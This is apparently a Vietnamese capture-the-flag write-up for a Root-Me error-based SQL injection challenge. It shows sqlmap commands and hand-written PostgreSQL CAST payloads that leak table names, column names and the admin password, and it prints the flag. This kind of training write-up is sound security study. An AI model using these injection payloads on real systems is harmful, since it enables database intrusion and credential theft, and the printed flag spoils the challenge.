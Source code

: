 # SQL-Error

**Point: 40**

**Exploiting SQL error**

**Statement: Retrieve administrator’s password.**

**Related ressources:**

[Khai thác Error based SQL injection](https://whitehat.vn/threads/sql-injection-khai-thac-error-based-sql-injection.5664/)

[Error Based Injection](https://sqlwiki.netspi.com/injectionTypes/errorBased/#postgresql)

[SQL Payload List](https://github.com/payloadbox/sql-injection-payload-list)

[Information schema](https://www.postgresql.org/docs/9.1/information-schema.html#:~:text=The%20information%20schema%20consists%20of,defined%20in%20the%20current%20database.&text=Some%20other%20views%20have%20similar,%2C%20constraint_column_usage%2C%20constraint_table_usage%2C%20table_constraints)

# Overview:

![image](https://user-images.githubusercontent.com/115911041/234256771-e502129c-1539-482d-b6e4-db8d0932b92a.png)

Form của challenge. Lần này challenge cung cấp cho ta 2 mục `Authentication` và `Contents`. Ban đầu thấy mục `Authentication` có chức năng Login, mình đã thử fuzz nhưng kết quả cho ra là `login failed`. Mình chuyển sang mục `Contents`

![image](https://user-images.githubusercontent.com/115911041/234257979-f60dad57-c246-40dc-9e5a-94aa89169ae0.png)

Nhận thấy URL có thay đổi. Thấy xuất hiện `order` và `ASC`, nghĩa là ở đây đang sử dụng lệnh `order by` và `ASC` là sắp sếp theo thứ tự tăng dần. Mình sẽ thử fuzz 

![image](https://user-images.githubusercontent.com/115911041/234265663-6536c738-9b3c-4d26-af47-322c912aad32.png)

Ban đầu là thêm dấu nháy `'` thì có lỗi báo giống như dự đoán là  đang sử dụng `order by` theo cột page và `ERROR: syntax error at or near "''"` nghĩa là database đang chạy là PostgreSQL.

Vậy đối với challenge này ta dùng Error-Based Blind SQL Injection. Phương thức này là cơ bản là một phương thức mà câu truy vấn của mình sẽ khiến server trả về thông báo lỗi, từ thông báo lỗi đó có thể chứa nội dung truy vấn hoặc các thông tin của cơ sở dữ liệu để chúng ta có thể khai thác xa hơn.

Đối với PostgreSQL thì chỉ có 1 lỗi ta có thể khai thác SQL injection - `đổi kiểu dữ liệu từ dạng chuỗi sang dạng số`- `INT`. Ta có 2 hàm sử dụng là `Cast()` và `Convert`
đối với PostgreSQL thì ta sử dụng `Cast()`

Một cách khác nữa là ta sử dụng SQL map

# Solution:

# Cách 1:

Sử dụng câu lệnh sau

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs` 

![image](https://user-images.githubusercontent.com/115911041/234262375-2723de88-19fb-49fc-a8b6-a86762c871dd.png)

Kết quả trả về cho ta thấy bài này xuất hiện 2 cách khai thác sqli bao gồm khai khác blind và error. Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database public là được. Thực hiện lấy các tables trên database này

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

`-D public` là lấy kết quả trong `database public` còn `--tables` sử dụng để lấy tên các bảng.

![image](https://user-images.githubusercontent.com/115911041/234263135-d1a7ceb6-2218-4a4e-95de-126a678f2f07.png)


Kết quả cho ra table là  `m3mbr35t4bl3`. Thực hiện lấy data trong table

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`

`-T` là bảng cần lấy data, `--dump` lầy toàn bộ dữ liệu.

![image](https://user-images.githubusercontent.com/115911041/234263711-6ac5cf8d-5db7-4525-a3ed-1784cb72e91b.png)

Kết quả cho ra 1 hàng dữ liệu của admin `Flag: 1a2BdKT5DIx3qxQN3UaC`

# Cách 2:

Ta nhớ lại là với mỗi câu truy vấn lỗi thì ta đều sẽ nhận được thông báo lỗi từ server. Và trong tài liệu mình đọc thì có một cách để khai thác lỗi này đó và dựa vào những câu lệnh ép kiểu.

Ép kiểu trong sql thì cũng giống như ép kiểu trong lập trình vậy. Nó sẽ chuyển kiểu dữ liệu của một biến hay một giá trị từ kiểu này sang kiểu khác. Nhưng mà hai kiểu này phải tương đồng với nhau. Ví dụ như từ int sang float , float sang int, … chứ không thể chuyển từ string mà chuyển qua int hay float được.

Những payload hay tên của table mình có tham khảo ở mục số (2) và (3) mà mình đã cung cấp ở `related resources`.

Bây giờ ta sẽ chèn payload như sau

`,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset0)||chr(126)+as+nUmeRiC)--`

Nó gợi ý mình sài LIMIT kèm với OFFSET mới được.Mình sẽ thử `limit 1 offset 0`

`,cast(chr(126)||(select table_name from information_schema.tables limit 1 offset 0)||chr(126))+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234286649-cc9bba23-05fa-4f0c-a07e-dbc78ecb4760.png)

Mình để offset là 0 thì có result là `id`. Tiếp theo dùng Burp Intruder để cho off set chạy

![image](https://user-images.githubusercontent.com/115911041/234287538-dceda6c1-2290-4657-a653-f00c8e725251.png)

![image](https://user-images.githubusercontent.com/115911041/234288018-5cb4fd01-7a5e-4193-9bd6-8b915a791d4f.png)

May là offset ở vị trí 1 và 2 `us3rn4m3_c0l` và `p455w0rd_c0l`.Bây giờ mình sẽ khai thác dữ liệu của 2 cột

`,cast(chr(126)||(select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as numeric)–-`

`,cast(chr(126)||(select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234288968-48b0f50d-5b60-43f4-a1cd-076c9315b625.png)





